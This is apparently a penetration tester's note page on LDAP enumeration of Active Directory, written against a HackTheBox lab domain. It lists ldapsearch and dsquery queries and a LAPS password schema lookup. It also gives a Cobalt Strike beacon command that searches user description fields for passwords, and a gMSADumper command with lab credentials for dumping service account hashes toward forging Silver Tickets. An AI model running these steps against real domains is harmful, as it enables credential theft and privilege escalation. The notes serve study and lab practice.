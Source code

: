 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ldap]]  
___

## Description:  

Many tools including ldapsearch will use ldap queries:

`ldapsearch -x -h intelligence.htb -s base namingcontexts` ^216b42

In windows use this:
```
dsquery *  -filter "(samAccountName=e.black)" -attr *
```

ADsearch is another:
[[Active Directory Enumeration#^6a6097]]

### LDAP Queries

^cdfdbf

Get all data (WARNING: this will be very loud and look like bloodhound)
```
ldapsearch (objectclass=*)
```

Retrieve All Schema Info

```
ldapsearch (schemaIDGUID=*) name,schemaidguid -1 "" CN=Schema,CN=Configuration,DC=windomain,DC=local
```

Retrieve Only the ms-Mcs-AdmPwd schemaIDGUID

```
ldapsearch (name=ms-mcs-admpwd) name,schemaidguid 1 "" CN=Schema,CN=Configuration,DC=windomain,DC=local
```

finding all domain groups that end in "Admins"
`"(&(objectCategory=group)(cn=*Admins))"`

to look for passwords in the description field of AD
`beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description






**How to get hashes from ldap with valid creds
https://github.com/micahvandeusen/gMSADumper

`python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d 'intelligence.htb' -l 'dc.intelligence.htb'

If you get a service account hash you can make a [[Silver Ticket#^4540be]]


Also see [[Active Directory Enumeration]]

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (03:19 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
